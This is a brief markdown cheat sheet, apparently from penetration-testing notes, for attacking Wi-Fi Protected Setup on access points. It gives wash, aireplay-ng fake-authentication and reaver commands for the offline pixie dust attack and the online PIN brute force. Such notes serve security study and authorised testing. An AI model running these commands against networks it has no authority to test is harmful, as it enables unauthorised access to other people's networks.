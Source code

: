# WPS (Wi-Fi Protected Setup)

- Identify AP with WPS enabled
    - `sudo wash -i <INTERFACE> -s`
- Send Fake Auth Attack
    - `sudo aireplay-ng -1 0 -e <AP NAME> -a <AP MAC> -h <YOUR_MAC> <INTERFACE>`
- Do offline brute force attack (pixie dust)
    - `sudo reaver -i wlan0 -b <AP MAC> -SNLAvv -c 1 -K`
    
    Or
    
- Do online brute force attack
    - `sudo reaver -i <INTERFACE> -b <AP MAC> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>`
